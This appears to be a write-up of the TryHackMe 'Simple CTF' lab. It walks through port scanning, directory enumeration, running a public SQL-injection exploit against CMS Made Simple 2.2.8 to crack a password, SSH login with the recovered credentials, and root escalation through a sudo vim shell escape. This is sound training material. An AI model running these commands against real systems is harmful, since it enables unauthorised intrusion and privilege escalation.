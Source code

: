 ```yaml
---
layout: post
title: TryHackMe: Simple CTF
--- 
```

# Simple CTF
This box eas a great first step into the world of offensive security involving some automated exploits, Linux privilege abuse, and, as always, a good amount of enumeration. You can try it free yourself on [TryHackMe](https://tryhackme.com/room/easyctf)!
## Port Scan
- For the first TryHackMe question of how many ports are running under 1000, scan ports 1 through 1000 with`nmap -sS -p 1-1000 [easyCTF IP]`
![portscan1000](Pasted image 39.png)Here we have ports 21 and 80 open.
- We can further enumerate those services with `nmap -sS -sV -A -p 21,80 [easyCTF IP]`
![portscan1000version](Pasted image 40.png)We have FTP vsftpd 3.0.3 (with a #user of FTP) and Apache httpd 2.4.18 running on ubuntu
- For good measure, we can scan the rest of the ports with`nmap -sS -p- [easyCTF IP]`
![portscanall](Pasted image 41.png)We see port 2222 is also open, so we can further enumerate with `nmap -sS -sV -A -p 2222 [simnpleCTF IP]`
![portscanallversion](Pasted image 42.png)We see that the service version is SSH 7.2p2
## HTTP Enumeration
### Visiting the home page
- Just the default Apache page.
## Dirb
- Look for additional URLs with `dirb http://[easyCTF IP]/`
![dirb](Pasted image 44.png)This affords is the robots.txt file as well as the simple directory
![dirboutput](Pasted image 45.png)Further enumeration of the simple directory reveals additional directories
### Robots.txt
![robots](Pasted image 43.png)
We can see a CUPS server is running with a possible #user of mike
### Simple/
#### Root Directory
- Looking at the /simple path returns an installation page with the #artifact version of CMS Made Simple 2.2.8
![simpleroot](Pasted image 47.png)
#### Admin
- The simple/admin path returns the CMS Made Simple application
![simpleadmin](Pasted image 46.png)
---
## FTP -  This was a Rabbit Hole :/
- According to [this forum](https://forum.cmsmadesimple.org/viewtopic.php?f=8&t=74971), version numbers may be found in either root/version.php or lib/version.php
- From our port scan above we should be able to log in with the user FTP
	```
	telnet [Simple CTF IP] 21
	user FTP
	PASV
	LIST
	```
	Unfortunately, LIST times out and no files are returned. Doing some googling, we realize that this may be a firewall issue, which we have very little control over.
---
## Exploiting CMS Made Simple
- A quick google of CMS Made Simple 2.2.8 returns this [SQLi vulnerability](https://www.exploit-db.com/exploits/46635)
- We can download the exploit onto our machine with `wget https://www.exploit-db.com/raw/46635 -O 46635.py` 
- Using the usage instructions, we run the exploit and attempt to crack the password with `python 46635.py -u http://10.10.4.13/simple --crack -w /usr/share/wordlists/rockyou.txt`
![passwordcrack](Pasted image 48.png)This nets us a #user of ==mitch== and a cracked #password of ==secret==
## Logging in with SSH
- We can not try the creds for mitch with `ssh -p 2222 mitch@[Simple CTF IP]`
![sshlogin](Pasted image 49.png)This nets us the user flag!
- We also notice that there another user in the home directory
## Privilege Escalation Enumeration
- Running `sudo -l` reveals that we have no password sudo access to VIM
According to [GTFOBins](https://gtfobins.github.io/gtfobins/vim/?source=post_page---------------------------), we can break out of the shell with `sudo vim -c ':!/bin/sh'`
![privesc](Pasted image 50.png)This gets us the root flag!
![rootflag](Pasted image 51.png)